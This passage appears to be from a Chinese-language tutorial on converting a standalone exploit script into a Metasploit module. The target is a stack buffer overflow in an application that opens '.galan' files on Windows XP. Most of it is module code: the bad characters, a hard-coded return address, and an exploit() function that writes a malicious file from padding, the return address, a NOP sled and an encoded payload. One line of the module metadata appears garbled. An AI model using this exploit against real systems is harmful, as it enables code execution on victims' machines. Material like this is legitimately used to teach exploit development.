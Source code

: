 ```
'BadChars' => "\x00\x0a\x0d\x20\x0c\x0b\x09",
'StackAdjustment' => -3500,
Metasploit moduleworking},
'Platform' => 'win',
'Targets' =>
[
[ 'Windows XP Universal', { 'Ret' => 0x100175D0} ], # 0x100175D0 call esi @ glib-1_3
],
'Privileged' => false,
'DefaultTarget' => 0))
register_options(
[
OptString.new('FILENAME', [ false, 'The file name.', 'evil.galan']),
], self.class)
end

```

到目前为止，它是简单而直接的。twist 从定义 `exploit()`函数开始。让我们看看如何做到这一点。

我们将从原始攻击脚本的前四个字节开始，即 `$magic = "Mjik"`；

在我们的模块中将其替换为 `sploit = "Mjik"`。

然后，我们继续前进，建立我们的缓冲区。由于我们发现 `EIP`被覆盖的位置，我们可以通过以下方式替换重复的返回地址值：

```
sploit << rand_text_alpha_upper(1028);
sploit << [target.ret].pack('V');

```

然后，我们必须添加 nop 幻灯片。因此，部分利用脚本将更改为模块中的以下行：

```
sploit << "\x90" * 45

```

最后，我们构建完整的外壳代码：

```
sploit << payload.encoded

```

最后，我们可以在 `exploit()`函数下组合这些脚本行。

```
def exploit
sploit = "Mjik"
sploit << rand_text_alpha_upper(1028)
sploit << [target.ret].pack('V')
sploit << "\x90" * 45
sploit << payload.encoded
galan = sploit
print_status("Creating '#{datastore['FILENAME']}' file ...")
file_create(galan)
end 
```
